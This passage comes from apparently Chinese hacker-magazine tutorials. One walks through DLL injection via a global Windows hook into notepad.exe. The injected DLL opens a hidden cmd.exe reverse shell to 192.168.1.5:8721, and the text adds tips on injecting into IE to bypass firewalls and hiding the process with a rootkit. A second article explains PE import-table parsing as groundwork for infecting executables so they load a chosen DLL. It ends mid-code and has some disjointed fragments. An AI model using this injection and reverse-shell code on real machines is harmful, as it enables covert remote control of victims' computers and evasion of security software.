        // MessageBox(NULL, "DLL_THREAD_DETACH", "", MB_OK);
        break;
    case DLL_PROCESS_DETACH:
        // MessageBox(NULL, "DLL_PROCESS_DETACH", "", MB_OK);
        // UnHook();
        break;
    default:
        // MessageBox(NULL, "Default", "", MB_OK);
        break;
    }
    return TRUE;
}

void SetHook(HWND hWnd)
// 导出函数，安装钩子
{
    hHook = NULL;
    m_hWnd = hWnd;
    hHook = SetWindowsHookEx(WH_GETMESSAGE, GetMsgProc, hinst, 0);

    // 安装一个消息钩子
    if (hHook == 0)
    {
        MessageBox(NULL, "Hook Unsuccess!", "Warning", MB_OK|MB_ICONWARNING);
    }
}

void UnHook()
// 导出函数，卸载钩子
{
    BOOL ret = UnhookWindowsHookEx(hHook);
    if (TRUE != ret)
    {
        MessageBox(NULL, "UnHook Unsuccess!", "Warning", MB_OK|MB_ICONWARNING);
    }
}

LRESULT CALLBACK GetMsgProc(int code, WPARAM wParam, LPARAM lParam)
{
    // 回调函数
    CallNextHookEx(hHook, code, wParam, lParam);
    // 先向下传递消息
    static bool old = false;
    // 这个是防止我们重复调用
    char buffer[1000];
    memset(buffer, 0, 1000);
    GetModuleFileName(0, buffer, 1000);
    // 获得当前进程的绝对路径
    char *InsertName = _strupr(_strdup("notepad.exe"));
    // 要插入的进程，我这里以 notepad.exe 为例
    char *CurrentName = _strupr(_strdup(buffer));

    if (strstr(CurrentName, InsertName) != NULL && old == false)
    {
        // 如果绝对路径里包含要挂机的进程名（这里实际就是判断是不是我们指定的进程）
        old = true;
        // 防止二次加载
        HMODULE hDll = NULL;
        hDll = LoadLibrary("E:\\Microsoft Visual Studio\\系统工程\\线程插入技术\\三级跳技术\\Insert\\Debug\\Insert.dll");
        // 这里一定是绝对路径，否则是无法顺利加载的，绝对路径要根据实际情况修改，不过你可以直接复制到 c:\\windows\\system32 下就不用绝对路径了
        if (hDll == NULL)
        {
            MessageBox(NULL, "Insert failed!", "", MB_OK|MB_ICONERROR);
        }

        typedef void (*RUN)(HWND);
        RUN Run = (RUN)GetProcAddress(hDll, "Run");
        // 获得实际工作DLL的启动函数
        Run(m_hWnd);
    }
    return TRUE;
}
```

以上代码写完毕后，我们还需要设置函数的导出，实现代码如下。

```text
EXPORTS
SetHook
UnHook

SEGMENTS
share READ WRITE SHARED
```

其中的SEGMENTS表示自定义段的属性。至此，我们的全局钩子就编写完毕了，下面我们再看看具体实现DLL的内容，其代码如下。

```c
#include <Winsock2.h>
#include <Windows.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32.lib")
// DLL入口函数
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved);
// 工作线程
DWORD WINAPI ThreadProc(LPVOID lpParameter);

void Run(HWND hWnd);
// 导出函数，用于运行DLL
HANDLE hThread;
// 线程句柄
BOOL ret;
```

下面的代码是其具体实现，我这里用了一个重定向CmdShell的代码做试验。

```c
#include "Insert.h"

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    switch(fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        ret = FALSE;
        ret = TerminateThread(hThread, 0);
        // 当DLL被卸载时结束其线程
        if (ret == 0)
            MessageBox(NULL, "Terminate Work Thread Failed!", "Failed", MB_OK|MB_ICONERROR);
        break;
    default:
        break;
    }
    return TRUE;
}

void Run(HWND hWnd)
{
    hThread = NULL;
    SendMessage(hWnd, WM_CLOSE, 0, 0);
    // Loader里边的概念传递过来，然后我们给它发一个WM_CLOSE消息来结束掉主程序。
    hThread = CreateThread(NULL, 0, ThreadProc, NULL, 0, NULL);
    // 这里为什么要新建一个线程呢？因为如果我们直接编写代码，当代码阻塞或者执行大量运算时，我们的进程也会停止响应，所以需要建立一个子线程来完成工作
    if (hThread == 0)
    {
        MessageBox(NULL, "Create Work Thread Failed!", "Failed", MB_OK|MB_ICONERROR);
    }
}

DWORD WINAPI ThreadProc(LPVOID lpParameter)
// 子线程（工作线程）
{
    WSADATA wsa;
    WSAStartup(MAKEWORD(2,0), &wsa);

    SOCKET sock;
    PROCESS_INFORMATION pi;
    STARTUPINFO si;
    sockaddr_in addr;

    memset(&addr, 0, sizeof(addr));
    memset(&pi, 0, sizeof(pi));
    memset(&si, 0, sizeof(si));

    addr.sin_family = AF_INET;
    addr.sin_port = htons(8721);
    addr.sin_addr.s_un.S_addr = inet_addr("192.168.1.5");

    sock = WSASocket(AF_INET, SOCK_STREAM, NULL, NULL, NULL, NULL);

    while(1)
    {
        // 断开后一直重试连接
        sock = WSASocket(AF_INET, SOCK_STREAM, NULL, NULL, NULL, NULL);

        while (0 != connect(sock, (sockaddr*)&addr, sizeof(addr)))
        {
            // 连接失败，休息一下重新连
            shutdown(sock, 0);
            Sleep(5000);
        }

        si.cb = sizeof(si);
        si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
        si.hStdInput = si.hStdError = si.hStdOutput = (void*)sock;
        si.wShowWindow = SW_HIDE;
        memset(&pi, 0, sizeof(pi));
        BOOL ret = CreateProcess(NULL, "cmd.exe", NULL, NULL, true, 0, NULL, NULL, &si, &pi);

        // 重定向CMD
        WaitForSingleObject(pi.hProcess, INFINITE);
        closesocket(sock);
    }

    WSACleanup();
    return 1;
}
```

以上代码的导出实现如下，由于只有一个导出函数，所以比较简单。

```text
EXPORTS
    Run
```

#### 测试

下面我们来检测一下效果。先用NC监听我们的返回端口，如图1所示。当我们按下按钮加载钩子后，我们运行了一个记事本，这时主程序自动退出。同时，记事本提示要访问网络，如图2所示。





当然，这里仅是为了做个测试，实际应用的时候可以插入IE进程来实现穿墙，如果再用个Rootkit把IE进程隐藏起来，那就能隐蔽了。点击天网防火墙提示信息的“允许”让其通过，如图3所示，我们就得到CmdShell了，测试成功。



#### 后记

以上就是传说中的三级跳线程插入技术，我们可以用Icesword清楚看到，如图4所示，虽然我们的EXE程序没有运行，但我们的DLL依然是在对方进程里的，因为我们的钩子DLL加载这个DLL的时候是属于我们的宿主进程的，所以，我们的DLL实际上是宿主进程加载的。自然我们卸载钩子的时候，我们的DLL就不会被卸载掉了。



我用卡巴斯基7测试的时候，把主动防御打开，当设置钩子时会有提示，其他地方则都没有提示，不过当重定向CmdShell时候会再次提示，但这个就是重定向代码的问题了，和我们的程序没有关系。

适合读者：编程爱好者

前置知识：VC

## 感染PE文件加载DLL

文／图 Blackbeast



PE文件，全称Portable Executable文件，是Windows系统可执行文件采用的普遍格式，像我们平时接触的EXE、DLL、OCX甚至SYS文件都属于PE文件的范畴。很多Win32病毒都是基于感染PE文件来进行传播的，今天我们就来尝试一下通过感染PE文件使其加载指定的DLL。

## PE文件功能

众所周知，在Windows程序中需要调用各种各样的系统API，这些API被微软封装在不同的DLL文件中，这些DLL会在进程启动时（或者需要时）加载到进程的地址空间，我们调用一个API都是基于如下的汇编代码实现的。

```asm
00411A3E    mov    esi,esp
00411A40    push   100h
00411A45    lea    eax,[strDllDir]
00411A4B    push   eax
00411A4C    call   dword ptr [__imp__GetWindowsDirectoryA@8] ; (42B180h)
```

这些汇编代码是针对如下代码的反汇编结果。

```c
char strDllDir[256];
GetWindowsDirectory(strDllDir,256);
```

可见，调用一个系统API是在参数压栈后调用Call命令执行系统调用GetWindowsDirectory()的。上文说过，系统调用是通过DLL引入进程的，但是不同进程引入的DLL地址并不相同，程序是如何知道这个Call应该调用什么地址呢？这就需要PE文件发挥作用了。PE文件里面定义了本文件包含的API地址相对偏移值，执行进程根据这个PE文件加载的基地址和相对偏移值就可以算出来某个特定API在本进程地址空间的位置，并加以调用。此外，PE文件还具有指定默认引入DLL、导出API等其他功能，下文会一一详细介绍。

## 分析PE文件的准备工作

进行PE文件分析需要准备几个小软件，分别为ExpScope，使用该程序可以打开一个PE文件进行分析，能够显示PE头结构、导入表、导出表和资源等相关信息；LordPE，它可以分析静态文件，也可以分析当前运行的进程，此外还提供简单的脱壳和PE文件修复功能，使用方便；WinDump，一个开源的PE文件分析软件，读者可以自行下载进行参考。

有了这几款软件，我们现在就可以进行PE文件的分析了，为了更生动地分析PE文件的结构，我们尝试编程剥离PE文件的层层结构，并对其进行修改以验证程序分析的正确性。

## PE文件头部分分析

我们的分析以Windows自带的浏览器IE为例。首先建一个新的工程，选择Windows控制台程序即可，在该工程内导入类“CMapFile”，这个类可以将一个文件映射入内存，其工作原理是基于Windows的内存映射文件机制，实现细节不再赘述。我在2007年第11期的文章《分析PE资源》中已经介绍了这个类实现的具体细节，大家可以参考那篇文章。

PE文件的头总体结构如图1所示，有关DOS头、PE文件头、选项头的介绍，《分析PE资源》一文中也讲得很清楚了，大家自行翻阅即可。

## PE文件段

PE文件段没有什么特定的结构特点，它基本可以被链接器链接到PE文件的任何地方，程序执行时从PE文件定位段全靠段头部。具体结构我就不介绍了，大家可以参考winnt.h或者《分析PE资源》一文，这里只介绍几个重要的变量。

- VirtualAddress 这个域标识了进程地址空间中要装载这个段的虚拟地址。实际的地址由将这个域的值加上可选头部结构中的ImageBase虚拟地址得到。切记，如果这个映像文件是一个DLL，那么这个DLL就不一定会装载到ImageBase要求的位置。所以一旦这个文件被装载进入了一个进程，实际的ImageBase值应该通过使用GetModuleHandle来检验。
- SizeOfRawData 表示原始数据的大小，也就是根据FileAlignment进行对齐之前的数据大小。
- PointerToRawData 这是一个文件中段实体位置的偏移量。

现在我们就可以回过头解决数据目录定位的问题了，数据目录所指向的内容，必然属于一个段实体，每个段在进程执行时被加载到进程地址空间的偏移量是由这个段头部的VirtualAddress确定的，这个值的含义和数据目录中的VirtualAddress含义相同，所以只要能够知道数据目录指向的数据究竟属于哪个段，就可以根据两个VirtualAddress的差值确定这个数据目录指向数据相对于这个段实体头部的偏移量，然后再根据段头部的PointerToRawData定位这个段实体在PE文件中的位置，就可以进一步确定该DataDirectory所对应数据在文件中的位置了。

下面的代码实现了根据DataDirectory数组下标确定其对应的数据位置的功能。

```c
LPVOID GetDataPositionByDataDirectoryIndex(BYTE *pFileImage, DWORD dwDataDirectoryIndex)
{
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pFileImage;
    PIMAGE_FILE_HEADER pFileHeader = (PIMAGE_FILE_HEADER)(pFileImage + pDosHeader->e_lfanew + 4);
    PIMAGE_OPTIONAL_HEADER32 pOptionalHeader = (PIMAGE_OPTIONAL_HEADER32)(pFileImage + pDosHeader->e_lfanew + 4 + sizeof(IMAGE_FILE_HEADER));
    PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)(((char *)pOptionalHeader) + sizeof(IMAGE_OPTIONAL_HEADER32));
    if (dwDataDirectoryIndex >= pOptionalHeader->NumberOfRvaAndSizes)
    {
        return NULL;
    }

    PIMAGE_SECTION_HEADER pSectionBelong = NULL;
    for (int i = 0; i < pFileHeader->NumberOfSections; i++)
    {
        if (pSectionHeader[i].VirtualAddress <= pOptionalHeader->DataDirectory[dwDataDirectoryIndex].VirtualAddress
            && pSectionHeader[i].VirtualAddress + pSectionHeader[i].SizeOfRawData >= pOptionalHeader->DataDirectory[dwDataDirectoryIndex].VirtualAddress + pOptionalHeader->DataDirectory[dwDataDirectoryIndex].Size)
        {
            pSectionBelong = &(pSectionHeader[i]);
            break;
        }
    }
    if (pSectionBelong == NULL)
    {
        return NULL;
    }
    else
    {
        return pFileImage + pSectionBelong->PointerToRawData + pOptionalHeader->DataDirectory[dwDataDirectoryIndex].VirtualAddress - pSectionBelong->VirtualAddress;
    }
}
```

基于类似的原理，我们还可以实现从VirtualAddress向文件偏移量的转换，下面的函数就实现了这个功能。

```c
DWORD VirtualAddrToOffSet(DWORD dwVirtualAddr, BYTE *pFileImage)
{
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pFileImage;
    PIMAGE_FILE_HEADER pFileHeader = (PIMAGE_FILE_HEADER)(pFileImage + pDosHeader->e_lfanew + 4);
    PIMAGE_OPTIONAL_HEADER32 pOptionalHeader = (PIMAGE_OPTIONAL_HEADER32)(pFileImage + pDosHeader->e_lfanew + 4 + sizeof(IMAGE_FILE_HEADER));
    PIMAGE_SECTION_HEADER pSectionHeader = ...
}
```

```c
(PIMAGE_SECTION_HEADER)(((char *)pOptionalHeader)
+sizeof(IMAGE_OPTIONAL_HEADER32));

PIMAGE_SECTION_HEADER pSectionBelong = NULL;
for(int i = 0; i < pFileHeader->NumberOfSections; i++)
{
    if(pSectionHeader[i].VirtualAddress <= dwVirtualAddr &&
       pSectionHeader[i].VirtualAddress + pSectionHeader[i].SizeOfRawData >= dwVirtualAddr)
    {
        pSectionBelong = &(pSectionHeader[i]);
        break;
    }
}
if(pSectionBelong == NULL)
{
    return 0;
}
else
{
    return pSectionBelong->PointerToRawData + dwVirtualAddr - pSectionBelong->VirtualAddress;
}
```

为了验证上述两个函数的正确性，我们可以尝试编程获得 iexplore.exe 导入表中导入的 DLL 名称。

```c
PIMAGE_IMPORT_DESCRIPTOR pImportDescriptor
= (PIMAGE_IMPORT_DESCRIPTOR)(pFileImage
+ VirtualAddrToOffset(pOptionalHeader->DataDirectory
[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress,
pFileImage));

while(pImportDescriptor->Characteristics != 0)
{
    char *p = (char *)pFileImage + VirtualAddrToOffset
    (pImportDescriptor->Name, pFileImage);
    printf("Dll Name : %s\n", p);
    pImportDescriptor++;
}
```

程序运行结果如图2所示。



图2 获得导入 DLL 名称

在分析之前首先介绍一点，现在很多程序都会在某个特定段中实现多个段内容，如微软的浏览器 IE 就是在代码段中实现了导入段的内容，希望大家在分析时多加注意。

#### 导入表内容分析

我们首先分析导入表的内容。在验证虚拟地址和文件偏移量转换算法的时候，我编写了一段代码，尝试输出导入的 DLL 名称，这其中就涉及到了导入表的最基本结构。如果调试该程序就会发现，iexplore.exe 的导入表实际在段“.text”中实现。在“winnt.h”中有若干数据结构都和导入表有关系，这里先分析 IMAGE_IMPORT_DESCRIPTOR。“winnt.h”中对这个数据结构定义如下：

```c
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD Characteristics;
        // 0 for terminating null import descriptor
        DWORD OriginalFirstThunk;
        // RVA to original unbound IAT (PIMAGE_THUNK_DATA)
    };
    DWORD TimeDateStamp;
    // 0 if not bound,
    // -1 if bound, and real date/time stamp
    // in IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT (new BIND)
    // O.W. date/time stamp of DLL bound to (Old BIND)
    DWORD ForwarderChain;
    // -1 if no forwarders
    DWORD Name;
    DWORD FirstThunk;
    // RVA to IAT (if bound this IAT has actual addresses)
} IMAGE_IMPORT_DESCRIPTOR;
```

第一个成员变量是一个 union，其实也就是一个 DWORD。这个成员变量既可以在为零的时候代表 IMAGE_IMPORT_DESCRIPTOR 数组结束（即数组的最后一个元素），又可以表示一个 IMAGE_THUNK_DATA 数组的虚拟偏移地址，这个数组每一项代表一个引入函数，其具体定义将在后面详细介绍。

第二个和第三个变量按照 PE 文件的规范是代表时间戳和数组长度，但在我的实验中这两个变量的值始终是 0xFFFFFFFF，估计现在已经不再使用。

Name 是一个虚拟地址，指向一个以“0”结尾的字符串，代表导入的 DLL 名称，上文获得导入 DLL 的名称就是通过这个变量获得的。

FirstThunk 也是一个虚拟地址，指向一个 IMAGE_THUNK_DATA 数组，代表模块导入的函数。

大家也许会奇怪，为什么有两个虚拟地址都指向 IMAGE_THUNK_DATA 数组，两者之间有什么区别？在解释这个问题之前，我们必须弄清楚 IMAGE_THUNK_DATA 的结构，“winnt.h”对这个结构的定义如下：

```c
typedef struct _IMAGE_THUNK_DATA32 {
    union {
        DWORD ForwarderString;  // PBYTE
        DWORD Function;         // PDWORD
        DWORD Ordinal;
        DWORD AddressOfData;    // PIMAGE_IMPORT_BY_NAME
    } u1;
} IMAGE_THUNK_DATA32;
```

其实这个结构可以被当作一个 DWORD 使用，当这个 DWORD 最高位是 1 的时候，代表这个函数通过序号形式引入，下面的宏就是“winnt.h”中用来取出函数导入序号的。

```c
#define IMAGE_ORDINAL32(Ordinal) (Ordinal & 0xffff)
```

如果最高位是零，则这个 DWORD 就代表一个虚拟地址，指向一个 IMAGE_IMPORT_BY_NAME 结构，这个结构定义如下：

```c
typedef struct _IMAGE_IMPORT_BY_NAME {
    WORD Hint;
    BYTE Name[1];
} IMAGE_IMPORT_BY_NAME;
```

在结构定义时，虽然 Name 数组的长度为 1，但在 PE 文件中，其为一个以“0”结尾的字符串，表示函数的名字，例如我们可以使用如下代码获得每个模块中的导入函数名称。

```c
int _tmain(int argc, _TCHAR* argv[])
{
    PVOID pPeImage = NULL;
    DWORD dwFileSize = 0;
    CMapFile cMapFile("iexplore.exe", true, pPeImage, dwFileSize);

    if(pPeImage != NULL)
    {
        BYTE *pFileImage = (BYTE*)pPeImage;
        PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pFileImage;
        PIMAGE_FILE_HEADER pFileHeader = (PIMAGE_FILE_HEADER)(pFileImage + pDosHeader->e_lfanew + 4);
        PIMAGE_OPTIONAL_HEADER32 pOptionalHeader = (PIMAGE_OPTIONAL_HEADER32)(pFileImage + pDosHeader->e_lfanew + 4 + sizeof(IMAGE_FILE_HEADER));
        PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((char*)pOptionalHeader + sizeof(IMAGE_OPTIONAL_HEADER32));

        PIMAGE_IMPORT_DESCRIPTOR pImportDescriptor =
          (PIMAGE_IMPORT_DESCRIPTOR)
          (pFileImage + VirtualAddrToOffset(pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress, pFileImage));

        while(pImportDescriptor->Characteristics != 0)
        {
            char *p = (char*)pFileImage + VirtualAddrToOffset(pImportDescriptor->Name, pFileImage);
            printf("Dll Name : %s\n", p);

            PIMAGE_THUNK_DATA pImageThunk =
            (PIMAGE_THUNK_DATA)(pFileImage +
            VirtualAddrToOffset(pImportDescriptor->OriginalFirstThunk, pFileImage));

            for(int i = 0; pImageThunk[i].u1.AddressOfData != 0; i++)
            {
                if(0 == (pImageThunk[i].u1.Ordinal & IMAGE_ORDINAL_FLAG))
                {
                    PIMAGE_IMPORT_BY_NAME pImportByName =
                    (PIMAGE_IMPORT_BY_NAME)(pFileImage +
                    VirtualAddrToOffset(pImageThunk[i].u1.AddressOfData, pFileImage));
                    printf("    Function %u Name: %s\n", i + 1, (char*)pImportByName->Name);
                }
            }
            pImportDescriptor++;
        }
    }
    else
    {
        printf("Map File Error");
    }
    // IMAGE_IMPORT_DIRECTORY
    getch();
    return 0;
}
```

运行结果如图3所示。


#### 编程解析

```c
if(pSectionBelong == &(pSectionHeader[i]))
    break;
}}
if(pSectionBelong == NULL)
{
    return 0;
}
else
{
    return pSectionBelong->VirtualAddress + dwOffset
    - pSectionBelong->PointerToRawData;
}}
```

这个函数的原理和函数 VirtualAddressToOffset() 类似，都是首先遍历全部的段头部，找到本偏移地址所在的段，然后根据段头部的 VirtualAddress 和 dwOffset 与本段偏移量 PointerToRawData 的差值确定这个 Offset 对应的 VirtualAddress，并返回结果。

现在解释一下为什么 IMAGE_IMPORT_DESCRIPTOR 中会有两个值都指向 IMAGE_THUNK_DATA 数组，其中的 OriginalFirstThunk 指向函数导入相关的 IMAGE_THUNK_DATA 结构，而 FirstThunk 指向的 IMAGE_THUNK_DATA 结构首位全部为零，进而指向一个 IMAGE_IMPORT_BY_NAME 结构，这个结构的 Name 对应一个长度为 1 的字符串“?”，而当这个 PE 文件被加载后，FirstThunk 就会变成这个函数在其加载进程地址空间中的位置了。

要在 PE 文件中添加导入段，必须重写 IMAGE_IMPORT_DESCRIPTOR 数组。上文介绍过，这个数组每一项对应一个导入的 DLL，以一个 Characteristics 为零的结构体结束，而且这个数组必须是连续的。此外这个数组后面一般没有空白，那应该把新的 IMAGE_IMPORT_DESCRIPTOR 结构体插入到什么地方呢？

#### 修正导入表加载 DLL

下面我们尝试给这个文件导入表加一个 DLL。为了完成这项工作，首先准备功能函数 OffsetToVirtuanAddr()，用来将文件偏移量转换成虚拟地址，实现代码如下。

回顾前面介绍的内容，每个段为了内存与页对齐，其末尾都是有一定的填充数据的，本程序就是利用这些填充数据写入新的 IMAGE_IMPORT_DESCRIPTOR 数组。

新写入的数组比原来的数组长度增加 1，对应需要引入的 DLL。但是引入一个 DLL 还需要其他结构的协助，例如“IMAGE_THUNK_DATA”“IMAGE_IMPORT_BY_NAME”，用来存放旧的 IMAGE_IMPORT_DESCRIPTOR 数组的空间正好存放这些数据。我的实现代码具体如下。

```c
